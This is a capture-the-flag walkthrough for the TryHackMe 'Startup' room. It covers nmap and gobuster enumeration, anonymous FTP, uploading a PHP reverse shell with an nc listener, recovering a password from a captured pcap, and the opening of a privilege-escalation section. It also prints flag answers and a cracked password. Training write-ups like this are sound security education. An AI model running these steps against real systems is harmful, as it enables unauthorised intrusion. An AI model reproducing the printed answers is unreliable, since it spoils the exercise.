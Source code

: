 # [Startup](https://tryhackme.com/room/startup)

> Abuse traditional vulnerabilities via untraditional means.

## Scanning

first, we scan with nmap

```
nmap -A -T4 10.10.86.86
```

![image](https://user-images.githubusercontent.com/90561566/202391255-8dc00608-6faf-48b9-9685-4a30d1db64a7.png)

we can see 3 open ports are ftp (21), ssh (22) and http (80)

the most notable is ftp

![image](https://user-images.githubusercontent.com/90561566/202391799-6ad13366-75a7-4ae3-9cb2-f0ba4fc3ba61.png)

## FTP

```
ftp 10.10.86.86
Name (10.10.86.86:admin): anonymous
Password:
```

![image](https://user-images.githubusercontent.com/90561566/202393023-01179ee1-19c6-41de-8c15-8ecf2c31276c.png)

you maybe get an error like this

![image](https://user-images.githubusercontent.com/90561566/202394018-c2ac2dfa-adbc-4a7f-88e0-bc2badaa43b9.png)

the solution is `pass` mode on

![image](https://user-images.githubusercontent.com/90561566/202394119-34cb6715-5de9-45a8-b055-3b79cb627a68.png)

download all files to local and exit

```
get .test.log
get ftp
get important.jpg
get notice.txt
```

nothing here

![image](https://user-images.githubusercontent.com/90561566/202395916-1b4c32e9-2d9b-4ec1-a7d6-1f758dbb431c.png)

important.jpg

![image](https://user-images.githubusercontent.com/90561566/202396326-be353f36-eda8-4844-8101-532a4d1c2f16.png)

## HTTP

quick look at website

![image](https://user-images.githubusercontent.com/90561566/202397127-9841a316-e714-4bf0-81b8-a795da27cb3f.png)

nothing much here

![image](https://user-images.githubusercontent.com/90561566/202397328-5d64db2d-6ff3-48c6-a4cb-481a01c75e58.png)

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.86.86/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/202398516-22378b17-b66c-44be-8805-d112a4a1e4f3.png)

go to /files

![image](https://user-images.githubusercontent.com/90561566/202399145-c8b89bf2-d1a9-4f4a-bfb0-fd3a6410e5d6.png)

it's the interface of ftp

## Exploitation

prepare a web shell and change to your ip

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

let's go back to fpt and upload our shell

```
cd ftp
put reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/202400688-dac15d49-fa39-445e-8be5-076656d4642c.png)

now we can see our shell here

![image](https://user-images.githubusercontent.com/90561566/202400761-176a6a53-185d-48b3-9fd8-a9359dd4cb08.png)

create listener and open file on browser

```
nc -vlnp 1234
```

![image](https://user-images.githubusercontent.com/90561566/202403261-dc874bcd-546b-431a-9da8-364ccfa5054a.png)

and the secret spicy soup recipe is `love`

![image](https://user-images.githubusercontent.com/90561566/202403567-a10149c0-fd42-41fa-923f-f4856d35d437.png)

let's see what in 2 suspicious folders here

![image](https://user-images.githubusercontent.com/90561566/202404109-b7fc3f73-c656-4fb9-adb5-9037b217f2b1.png)

hmm, a pcapng file, i will take it back to research

```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

![image](https://user-images.githubusercontent.com/90561566/202405450-17aa3512-4d2e-4c2e-90f1-f0a7f801dd0e.png)

## Cracking

open captured file with wireshark

```
wireshark -r ./Downloads/suspicious.pcapng 
```

![image](https://user-images.githubusercontent.com/90561566/202406829-5de606d7-538a-43a4-9617-61d754207602.png)

our concern should be http protocol, i see someone has request a web shell in the past

![image](https://user-images.githubusercontent.com/90561566/202407904-4b2186e3-567b-48fa-bf75-39a635033ebb.png)

let's take a look at tcp traffic 4444 dump it all out to plain text

![image](https://user-images.githubusercontent.com/90561566/202410068-a0519b4a-9b8d-42cf-9460-3c5574d8dd68.png)

after lookup, i can see here is the password for lennie

![image](https://user-images.githubusercontent.com/90561566/202412311-520555ec-70b3-4438-8657-bacbe2c1416d.png)

login with `c4ntg3t3n0ughsp1c3`

![image](https://user-images.githubusercontent.com/90561566/202412520-ce00699b-cca7-4cd4-9f3a-74a7996e6aa5.png)

flag here

![image](https://user-images.githubusercontent.com/90561566/202412792-71e3fea3-c7e4-49ed-91fb-37422a35e690.png)

| Flag | user.txt |
| --- | --- |
| Answer | THM{03ce3d619b80ccbfb3b7fc81e46c0e79} |

## Privilege Escalation

there is a scripts folder

![image](https://user-images.githubusercontent.com/90561566/202413237-9c3ac792-01fe-41c0-9663-10a8a9b6c774.png)

this file will run with root permission which is one key of privilege

![image](https://user-images.githubusercontent.com/90561566/202413562-ffb230c2-1725-48a0-8eb2-20b79d12204e.png)

it also run a file with lennie permission

![image](https://user-images.githubusercontent.com/90561566/202415242-39b20879-3392-446a-a212-7e1e929e9b92.png)




| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
